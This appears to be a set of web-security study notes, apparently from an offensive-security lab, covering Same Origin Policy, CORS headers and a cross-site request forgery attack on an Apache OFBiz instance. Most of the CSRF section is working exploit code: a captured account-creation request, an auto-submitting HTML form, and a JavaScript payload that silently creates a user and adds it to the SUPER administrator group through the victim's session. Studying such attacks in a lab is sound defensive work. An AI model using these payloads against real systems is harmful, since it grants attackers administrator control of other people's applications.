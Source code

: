 ### Same Origin Policy 
SOP blocks JavaScript and our browsers from accessing cross-origin resources, but it does not block the outgoing requests for such resources、

if the cookie has SameSite=Lax, the browser will not send it even if the preflight request indicates that the destination server allows credentials on CORS requests.
```
URL	RESULT	REASON
https://foo.com/myInfo	Allowed	Same Origin
http://foo.com/users.json	Blocked	Different Scheme and Port
https://api.foo.com/info	Blocked	Different Domain
https://foo.com**:8443**/files	Blocked	Different Port
https://bar.com/analytics.js	Blocked	Different Domain
```
### curl requesting cors settings
```
curl -v -X OPTIONS http://192.168.154.155/exercise2
```
### Servers can set several headers1 to enable CORS
···
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Origin: https://offensive-security.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: X-UserId
···
### CSRF(local test require apache2 service)
burp traffic of add user 
```
POST /webtools/control/createUserLogin HTTP/1.1
Host: ofbiz:8443
Connection: close
Content-Length: 178
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://ofbiz:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ofbiz:8443/webtools/control/createnewlogin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=76A7BCC53C2B9BF49B21F99D2D8CA5D5.jvm1; OFBiz.Visitor=10000

enabled=&partyId=&userLoginId=test&currentPassword=password&currentPasswordVerify=password&passwordHint=&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=
```
Create html payload ofbiz.html
```
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  <input type="hidden" name="enabled">
  <input type="hidden" name="partyId">
  <input type="hidden" name="userLoginId" value="test">
  <input type="hidden" name="currentPassword" value="password">
  <input type="hidden" name="currentPasswordVerify" value="password">
  <input type="hidden" name="passwordHint">
  <input type="hidden" name="requirePasswordChange" value="N">
  <input type="hidden" name="externalAuthId">
  <input type="hidden" name="securityQuestion">
  <input type="hidden" name="securityAnswer">
  </form>
</body>
</html>
```
Use js to make request
```
<html>
<head>
<script>
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";
  function send_create() { 
  console.log("Creating user..."); 
  fetch(host+create_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : create_params }
  ).then(function(response) {
    send_admin();
  }); 
}

function send_admin() { 
  console.log("Adding admin role..."); 
  fetch(host+admin_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded' 
    },
    body : admin_params }
  ).then(
    console.log("Should be done...") 
  );
}

send_create();
</script>
</head>
<body></body>
</html>
```
